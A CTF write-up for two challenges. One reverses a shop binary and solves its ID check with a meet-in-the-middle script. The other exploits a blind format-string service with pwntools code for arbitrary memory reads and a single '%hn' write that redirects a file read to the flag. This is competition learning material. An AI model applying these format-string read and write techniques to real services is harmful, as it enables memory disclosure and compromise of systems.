



## Rev/MeowvelousShop

Got second blood in this challenge! We are given a shop binary and a remote:

<!-- @xprops width="600px" -->


Reversing the binary, we find a win function `sub_403620` that opens `flag.txt` and prints it.

`sub_403620` has two xrefs; one of them is this stub:

```text
LOAD:00000000004029D4 loc_4029D4:                             ; CODE XREF: sub_402040
LOAD:00000000004029D4                                         ; DATA XREF: LOAD:off_40A008
LOAD:00000000004029D4                 call    sub_402046
LOAD:00000000004029D9                 call    sub_403620
LOAD:00000000004029DE                 retn
```

The xrefs on `loc_4029D4`:

<!-- @xprops highlightLines="3" -->

```text
LOAD:0000000000402040 ; __int64 sub_402040(const char *, ...)
LOAD:0000000000402040 sub_402040      proc near               ; CODE XREF: sub_403A20+254
LOAD:0000000000402040                 jmp     cs:off_40A008
LOAD:0000000000402040 sub_402040      endp

...
LOAD:000000000040A008 off_40A008      dq offset loc_4029D4    ; DATA XREF: sub_402040
```

There is only one code xref to `sub_402040` inside `sub_403A20`. That path is reached when Redeem (menu option 4) validates a correct 9-character alphanumeric membership ID previously set via option 2.

So set the right ID, pick option 4, and the success path through `sub_402040("gud try, but no flag for u ...")` prints the flag.

<!-- @xprops highlightLines="46" -->

```c
unsigned __int64 __fastcall sub_403A20(int a1)
{
  __int64 v1; // rax
  __int64 v2; // r10
  unsigned __int64 v3; // r9
  __int64 v4; // r8
  unsigned __int64 v5; // rsi
  unsigned __int64 result; // rax
  __int64 v7; // rdx
  __int64 v8; // rax
  __int64 v9; // rdi
  unsigned __int64 v10; // rcx

  dword_40CBB8 |= a1;
  v1 = *((_QWORD *)&xmmword_40CBA0 + 1);
  if ( *((_QWORD *)&xmmword_40CBA0 + 1) >= (unsigned __int64)qword_40CBB0 )
  {
    v3 = 0;
    v2 = 0;
    v4 = 0;
  }
  else
  {
    ++*((_QWORD *)&xmmword_40CBA0 + 1);
    v2 = *(unsigned __int8 *)(qword_40CBC0 + v1);
    v3 = 0xFF51AFD7ED558CCDLL * v2;
    v4 = v2;
  }
  v5 = v3 ^ __ROL8__(*((_QWORD *)&xmmword_40CB90 + 1), 13);
  result = (unsigned __int8)byte_40CB80;
  *((_QWORD *)&xmmword_40CB90 + 1) = v5;
  v7 = __ROL8__(xmmword_40CBA0 ^ (unsigned __int8)byte_40CB81, 13 * byte_40CB81 + 5);
  if ( (unsigned __int8)byte_40CB80 > 8u )
  {
    if ( byte_40CB80 == -1 )
    {
      v8 = __ROL8__(xmmword_40CB90 ^ (v4 + 17), 7);
      *(_QWORD *)&xmmword_40CB90 = qword_40CB78 + v8;
      v9 = (qword_40CB78 + v8) ^ qword_40CB78;
      result = 0x44C8F3B00C7E5CCFLL;
      if ( v9 == 0x44C8F3B00C7E5CCFLL )
      {
        result = 0xDBE43B2CA91A04D7LL;
        if ( (v7 ^ v5) == 0xDBE43B2CA91A04D7LL )
        {
          sub_402040("gud try, but no flag for u %s\nmaybe buy some plushies?\n", byte_40403A);
          exit(0);
        }
      }
    }
  }
  else if ( byte_40CB80 )
  {
    switch ( byte_40CB80 )
    {
      case 2:
        *(_QWORD *)&xmmword_40CB90 = __ROL8__(v2 + qword_40CB78, 11) ^ xmmword_40CB90;
        break;
      case 3:
        result = 0xFF51AFD7ED558CCDLL * xmmword_40CB90;
        *(_QWORD *)&xmmword_40CB90 = (0xFF51AFD7ED558CCDLL * xmmword_40CB90) ^ __ROL8__(v2 ^ v7, qword_40CB78);
        break;
      case 4:
        result = xmmword_40CB90 ^ (v2 + qword_40CB78 + __ROL8__(xmmword_40CB90, 13));
        *(_QWORD *)&xmmword_40CB90 = result;
        break;
      case 5:
        result = (unsigned __int8)v4 >> 6;
        *(_QWORD *)&xmmword_40CB90 = qword_40CB78 ^ __ROL8__(result + xmmword_40CB90 + v7, v4);
        break;
      case 6:
        result = xmmword_40CB90 - (unsigned __int8)(BYTE1(qword_40CB78) ^ v4);
        *(_QWORD *)&xmmword_40CB90 = result ^ __ROL8__(qword_40CB78, 5);
        break;
      case 7:
        v10 = ((unsigned int)xmmword_40CB90 ^ (unsigned int)__ROL8__((unsigned __int8)(qword_40CB78 ^ v4), 5)) + 2LL;
        result = (unsigned __int64)xmmword_40CB90 / v10;
        *(_QWORD *)&xmmword_40CB90 = __ROL8__(qword_40CB78, 17) ^ ((unsigned __int64)xmmword_40CB90 % v10);
        break;
      case 8:
        *(_QWORD *)&xmmword_40CB90 = __ROL8__(~(qword_40CB78 ^ __ROL8__(v3, 7)), 9)
                                   & (xmmword_40CB90 | __ROL8__(qword_40CB78 + v2, v4));
        break;
      default:
        *(_QWORD *)&xmmword_40CB90 = (xmmword_40CB90 + (unsigned __int8)(v4 ^ qword_40CB78)) ^ 0x9E3779B97F4A7C15LL;
        result = 0x9E3779B97F4A7C15LL;
        break;
    }
  }
  return result;
}
```

`sub_403A20` runs two independent checkers over the membership ID; we rewrote them in Python:

<!-- @xprops title="checkerA.py" -->

```python
M = (1 << 64) - 1
C = 0xFF51AFD7ED558CCD
T1 = 0x44C8F3B00C7E5CCF
G = 0x9E3779B97F4A7C15
SEED = 0xA5A5A5A5A5A5A5A5
A0 = 0x1122334455667788
P_CONST = 0xAB566AFAA195BA66
P_FALLBACK = 0x350204E9B5974F40
TYPE_TO_IDX = [0, 3, 7, 6, 8, 1, 2, 4, 5]
ROTS = [0, 0xB, 0x11, 0x17, 0x1D, 0x25, 0x29, 0x2F, 0x3A]

LAYERS = [
    (8, 0x05, 0xE457872966496B98),
    (7, 0x08, 0x376849993CCA9C98),
    (6, 0x03, 0xC3ED62D9E2413D63),
    (5, 0x06, 0x14A94D8D04B94085),
    (4, 0x07, 0x513E56AED26A569F),
    (3, 0x01, 0x47592BFE9F0AB262),
    (2, 0x05, 0x4370D45B3BDF234A),
    (1, 0x02, 0xADF44129CDC972C0),
    (0, 0xFF, 0x941EE4E96B3AF1AF),
]
DESCS = {t: (t, knd, key) for t, knd, key in LAYERS}


def rol(x, n):
    n &= 63
    x &= M
    return ((x << n) | (x >> (64 - n))) & M


def personality(typ, key):
    if ((typ - 1) & 0xFF) > 7:
        return (P_FALLBACK ^ key) & M
    idx = TYPE_TO_IDX[typ]
    x = (((idx + 1) * G) ^ DESCS[idx][2]) & M
    x ^= rol(P_CONST, 19 * idx + 7)
    x = rol(x, ROTS[typ])
    y = rol(P_CONST, 19 * typ + 7)
    y ^= (((typ + 1) * G) ^ key) & M
    return (x ^ y) & M


def step_a(a, k, kind, c, r, mul):
    if kind == 2:
        return rol(c + k, 11) ^ a
    if kind == 3:
        return ((C * a) & M) ^ rol(c ^ r, k)
    if kind == 4:
        return a ^ ((c + k + rol(a, 13)) & M)
    if kind == 5:
        return k ^ rol(((c >> 6) & 0xFF) + a + r, c)
    if kind == 6:
        return ((a - (((k >> 8) ^ c) & 0xFF)) & M) ^ rol(k, 5)
    if kind == 7:
        d = ((a & 0xFFFFFFFF) ^ (rol((k ^ c) & 0xFF, 5) & 0xFFFFFFFF)) + 2
        return rol(k, 17) ^ (a % d)
    if kind == 8:
        return rol((~(k ^ rol(mul, 7))) & M, 9) & (a | rol((k + c) & M, c))
    return ((a + ((c ^ k) & 0xFF)) ^ G) & M  # kind 1


def checker_a(s):
    a, i = A0, 0
    for typ, kind, key in LAYERS:
        k = personality(typ, key)
        c = s[i]
        i += 1
        mul = (C * c) & M
        r = rol(SEED ^ typ, 13 * typ + 5)
        if kind == 0xFF:
            a = (k + rol(a ^ (c + 17), 7)) & M
            return (a ^ k) == T1
        if kind:
            a = step_a(a, k, kind, c, r, mul) & M
    return False
```

<!-- @xprops title="checkerB.py" -->

```python
M = (1 << 64) - 1
C = 0xFF51AFD7ED558CCD
T2 = 0xDBE43B2CA91A04D7
SEED = 0xA5A5A5A5A5A5A5A5


def rol(x, n):
    n &= 63
    x &= M
    return ((x << n) | (x >> (64 - n))) & M


def fold(s):
    b = 0
    for c in s:
        b = rol(b, 13) ^ ((C * c) & M)
    return b


def checker_b(s):
    return fold(s) == (T2 ^ rol(SEED, 5))
```

Both checks must pass. Checker B is much simpler to invert: a fixed 64-bit fold over the 9 alphanumeric bytes, independent of the subtype switch.

Membership IDs are 9 characters in length and alphanumeric (`isalnum`), so the alphabet has size 62. Brute-forcing `62^9` is infeasible, but each fold step `rol(b, 13) ^ (C * ch)` is invertible (`ror(b ^ (C * ch), 13)`). Split the ID into a 4-byte prefix and a 5-byte suffix, then meet in the middle on the intermediate `b` state:

- forward: for every 4-char prefix, store `fold(prefix) -> prefix` (`62^4` entries)
- backward: start from `target = T2 ^ ROL64(SEED, 5)`, undo the last 5 characters, and look that state up in the table (`62^5` probes)

Total work is about `62^4 + 62^5` instead of `62^9`:

<!-- @xprops title="solverB.py" -->

```python
from itertools import product

M = (1 << 64) - 1
C = 0xFF51AFD7ED558CCD
T2 = 0xDBE43B2CA91A04D7
SEED = 0xA5A5A5A5A5A5A5A5
ALPH = b"0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"


def rol(x, n):
    n &= 63
    x &= M
    return ((x << n) | (x >> (64 - n))) & M


def ror(x, n):
    n &= 63
    x &= M
    return ((x >> n) | (x << (64 - n))) & M


def fold(chs):
    x = 0
    for ch in chs:
        x = rol(x, 13) ^ ((C * ch) & M)
    return x


def solve():
    target = T2 ^ rol(SEED, 5)
    fwd = {fold(p): bytes(p) for p in product(ALPH, repeat=4)}

    for s in product(ALPH, repeat=5):
        x = target
        for ch in reversed(s):
            x = ror(x ^ ((C * ch) & M), 13)
        if x in fwd:
            return fwd[x] + bytes(s)
    return None


print(solve())
```

This finds a unique solution `N0Fl4gY37` and it also passes checker A:

```python
print(checker_a(b"N0Fl4gY37"))  # True
print(checker_b(b"N0Fl4gY37"))  # True
```

So we never need to invert checker A. (^v^)

<!-- @xprops width="600px" -->



## Pwn/Leaks

Blind format string challenge, no binary. A bit of poking shows our input starts at argument `$6`.

<!-- @xprops width="600px" -->



The service also counts lowercase `n` in the input:

| num of `n` | Behaviour                                                   |
| ---------- | ----------------------------------------------------------- |
| 0          | normal `printf`, loop continues                             |
| 1          | `printf` runs, then `Bye! Exiting...` and the process exits |
| ≥ 2        | `Nice try!`, no `printf`                                    |

So we only get one `%n` write per connection.

First, an arbitrary-read helper:

```python
from pwn import *

host, port = ...
io = remote(host, port)

def read(addr):
    payload = b"%8$s".ljust(16, b"A") + p64(addr)
    io.sendlineafter(b"Enter input: ", payload)
    return io.recvuntil(b"A" * 12, drop=True)
```

On a blind challenge like this I usually dump the stack first. We wrap `read` into a range dump that can walk past null bytes:

```python
def dump(start, end):
    out = b""
    addr = start
    while addr < end:
        chunk = read(addr)
        if not chunk:
            out += b"\x00"
            addr += 1
        else:
            out += chunk
            addr += len(chunk)
    return out
```

Then dump interesting hits around `gift` from the banner leak (shown after the fact):

```python
print(dump(gift - 0x40, gift))
# b'\x00\x00\x00\x00\x00\x00\x00\x00\xc0\x92\xc6A\xb2r\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x08\xd0\xc6\x8f\x0fX\x00\x00flop.txt\x00\x00\x00\x00\x00\x00\x00\x00\xc0e\xe2A\xb2r\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'

print(dump(gift - 0x2080, gift - 0x1fd0))
# b'\x00...\x01\x00\x02\x00Here is a gift (stdin): %p\n\x00Enter input: \x00\n\x00Nice try!\x00\x00FSOP\x00rb\x00Data: %s\x00Bye! Exiting...\x00\x01\x1b\x03;('
```

| Address         | String                         |
| --------------- | ------------------------------ |
| `gift - 0x20`   | `flop.txt`                     |
| `gift - 0x202c` | `Here is a gift (stdin): %p\n` |
| `gift - 0x2010` | `Enter input: `                |
| `gift - 0x2000` | `Nice try!`                    |
| `gift - 0x1ff5` | `FSOP`                         |
| `gift - 0x1ff0` | `rb`                           |
| `gift - 0x1fed` | `Data: %s`                     |
| `gift - 0x1fe4` | `Bye! Exiting...`              |

`FSOP` looks odd. Sending it yields:

<!-- @xprops width="600px" -->



A bit of guesswork from here: with `rb` and `flop.txt` sitting next to each other, this looks a lot like `fopen(..., "rb")` on a path that should have been `flag.txt`. I guessed that an input containing `FSOP` will read the file and print it; `Nothing to see here ;)` is just the decoy in `flop.txt`.

Because of the single-`n` limit, the rename and the trigger have to happen in the same payload: `%hn` flips `op` to `ag` (`flop.txt` to `flag.txt`), and the same input carries `FSOP`:

```python
val = 0x6761  # "ag"
body = b"FSOP" + f"%{val - 4}c".encode() + b"%8$hn"
payload = body.ljust(16, b"A") + p64(gift - 0x20 + 2)  # flop.txt -> flag.txt
io.sendlineafter(b"Enter input: ", payload)
io.recvuntil(b"Data: ")
print(io.recvall())
# b'scriptCTF{ju57_l34k_3v3ry7h1ng_4nd_r34d_fl4g_85c60864ac95}\nBye! Exiting...\n'
```
